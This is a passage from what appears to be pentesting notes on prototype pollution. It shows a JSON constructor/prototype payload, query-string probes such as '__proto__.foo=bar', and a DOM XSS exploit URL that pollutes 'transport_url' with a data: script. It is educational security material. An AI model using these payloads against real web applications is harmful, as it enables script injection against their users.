 ```json
"constructor": {
    "prototype": {
        "evilProperty": "payload"
    }
}
```


<br><br>

### Client Side Pollution Examples

* Use DOM Invader to help with the exploitation process - https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution

<br>

### __Client-side Prototype Pollution - DOM XSS__

* Identify a prototype pollution source:
    
    * Inject an arbitrary property via a query string and determine if it has polluted the Object prototype:
	    
        * /?\_\_proto\_\_.foo=bar
	
        * /?\_\_proto\_\_[foo]=bar

    * Type the following in the browser's console and see if the Object has been polluted:
	
        * Object.prototype

* Identify a gadget:

    * Look through the clients-side source code and identify if there is an Object using a property in an insecure way.  For example, if we identify an object (config) using a property (transport_url) that is not defined, and used in a dangerous sink, we can try to pollute that property in the Object prototype:


    ```javascript
    if(config.transport_url) { 
	let script = document.createElement('script');
	script.src = config.transport_url;
	document.body.appendChild(script);
	}
    ```

* Craft an Exploit:

    * Use the source identified in the first step and attempt to pollute the "transport_url" property:
	
        * /?\_\_proto\_\_.transport_url=data:,alert(1);
	
        * /?\_\_proto\_\_[transport_url]=data:,alert(1);


* Other scenarios:
